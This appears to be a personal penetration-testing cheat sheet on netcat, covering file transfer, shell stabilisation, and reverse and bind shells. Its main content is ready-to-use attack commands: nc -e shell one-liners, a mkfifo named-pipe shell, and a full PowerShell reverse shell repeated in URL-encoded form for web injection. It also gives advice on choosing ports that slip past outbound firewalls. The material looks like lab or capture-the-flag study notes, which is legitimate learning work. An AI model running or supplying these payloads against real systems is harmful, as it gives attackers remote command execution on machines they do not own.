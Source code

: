 ```yaml
---
{"dg-publish":true,"permalink":"/notes/netcat/"}
---
```


- "Swiss Army Knife" of networking.
- Perform all kinds of network interactions.
- Support [[Networking/TCP\|TCP]] and [[Networking/UDP\|UDP]]
- Used to receive reverse shells and connect to remote ports attached to bind shells on a target system.
- If you choose to use a **port below 1024**, you will need to use `sudo` when starting your listener.
- It's **good idea** to **use** a **well-known** port number (**80, 443 or 53** being good choices) as this is more likely to get **past** outbound **firewall rules** on the target.

| Command   | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| `-l`      | is used to tell netcat that this will be a listener                                |
| `-n`      | tells netcat not to resolve host names or use DNS. avoid DNS lookups and warnings. |
| `-v`      | is used to request a verbose output                                                |
| `-p`      | indicates that the port specification will follow.                                 |
| `-vv`     | Very Verbose (optional)                                                            |
| `-k`      | Keep listening after client disconnects                                            |
| `-w SECS` | Timeout for connects and final net reads                                           |
# Transfer files
1. On the destination machine
```shell
nc -lp 1234 > file.txt
```
2. On the source machine
```shell
nc -w 3 IP_destination 1234 < file.txt
```

# Shell stabilization
## Technique 1: Python
1. Uses Python to spawn a better featured bash shell;
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
some targets may need replace `python` with `python2` or `python3`
2. access to term commands such as `clear`.
```sh
export TERM=xterm
```
3. Background the shell using Ctrl + Z.
```sh
stty raw -echo; fg
```
This does two things: 
- First, it **turns off our own terminal echo** (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
- then **foregrounds the shell,** thus completing the process.
- Note that **if the shell dies,** any input in your own terminal will **not be visible** (as a result of having disabled terminal echo). To **fix this, type** `reset` and press enter.
## Technique 2: rlwrap
- Rlwrap is a program which, in simple terms, gives us **access to history**, **tab autocompletion** and the **arrow keys** immediately upon receiving a shell
``` sh
rlwrap nc -lnvp <port>
```
- particularly useful when dealing with Windows shells
- On Linux target, it's possible to completely stabilise,
- using Ctrl + Z.
```sh
stty raw -echo; fg
```
## Technique 3: [[socat\|Socat]]
## Technique 4: [[Notes/SSH\|SSH]]

## Extra 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

# stty

</div>


- On my machine to get info from stty
```sh
stty -a
```
- Next, in your reverse/bind shell, type in:
`stty rows <number>`  
and
`stty cols <number>`


</div></div>


# Reverse shell
## On the target
### nc basic bash
#### Linux
```sh
nc <LOCAL-IP> <PORT> -e /bin/bash
```
**On Windows** this technique will **work perfectly**, where a static binary is nearly always required
#### Windows
**Command Prompt**
```sh
nc 10.10.38.232 443 -e “cmd.exe”
```
powershell
```sh
nc 10.10.38.232 443 -e “powershell.exe”
> ```

this is **not included in most versions of netcat** as it is widely seen to be very insecure **so**:
### Create a [[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Powershell reverse shell
It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a **webshell**)
```sh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```sh
powershell+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.13.41.201',4747)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

```sh
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5
```
## On the attacker
65535 total number of ports
To open tcp/udp in a host, assosiate a shell to a port, force UDP/TCP conexions
port 30000
```bash
nc localhost 4747
```

ncat has more options like encrypt with ssl
``` bash
ncat --ssl 127.0.0.1 30001
```
### Listener revershell
Start a listener using rlwrap to try to simulate an interactive console
``` sh
rlwrap nc -lnvp 4747
```
# Bind shell
## On the target(listener)
```bash
nc -lnvp <port> -e /bin/bash
```

On Linux, however, we would instead use this code to create a listener for a bind shell:
[[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Or get a cmd on windows
```sh
nc -lvnp <port> -e "cmd.exe"
```
## On the attacker
```bash
nc <target-ip> <chosen-port>
```

